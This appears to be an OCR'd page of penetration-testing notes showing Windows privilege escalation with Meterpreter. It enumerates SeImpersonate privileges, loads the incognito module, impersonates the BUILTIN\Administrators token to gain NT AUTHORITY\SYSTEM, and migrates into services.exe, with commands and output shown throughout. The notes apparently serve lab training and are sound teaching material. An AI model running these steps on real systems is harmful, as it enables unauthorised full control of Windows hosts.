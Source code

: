 **1. Display all privileges.**

whoami /priv

* SeDebugPrivilege and SeImpersonatePrivilege privileges are enabled.
* load incognito loads Metasploit's incognito module to exploit vulnerability.
* list\_tokens -g checks which tokens are available.
  * "BUILTIN\Administrators" token is available.

**2. Impersonate Administrators' token.**

impersonate\_token "BUILTIN\Administrators"

\[-] Warning: Not currently running as SYSTEM, not all tokens will be available

Call rev2self if primary process token is SYSTEM

\[+] Delegation token available

\[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

* Windows uses Primary Token of any process and not impersonated token to determine what process can do.

**3. Migrate to "services.exe" process.**

* This runs with "NT AUTHORITY\SYSTEM" permissions.

ps

\[...snip...]

668 580 services.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\services.exe

\[...snip...]

migrate 668

\[\*] Migrating from 1872 to 668...

\[\*] Migration completed successfully.

getuid

Server username: NT AUTHORITY\SYSTEM
